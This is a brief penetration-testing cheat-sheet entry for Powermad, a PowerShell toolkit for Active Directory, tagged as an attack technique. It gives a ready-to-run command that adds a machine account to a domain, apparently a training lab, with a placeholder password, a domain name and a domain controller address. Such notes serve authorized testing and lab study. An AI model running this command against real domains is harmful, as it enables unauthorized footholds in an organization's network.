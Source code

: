 # powermad

% windows, Active directory
#plateform/windows #target/remote  #cat/ATTACK

## powermad - url
```
https://github.com/Kevin-Robertson/Powermad/
```

## powermad - desc
```
PowerShell MachineAccountQuota and DNS exploit tools
```

## Add computer
```powershell
$password = ConvertTo-SecureString '<password|Jubeaz12345+->' -AsPlainText -Force; New-MachineAccount -MachineAccount "<computer_name|jubeaz>" -Password $($password) -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose
```

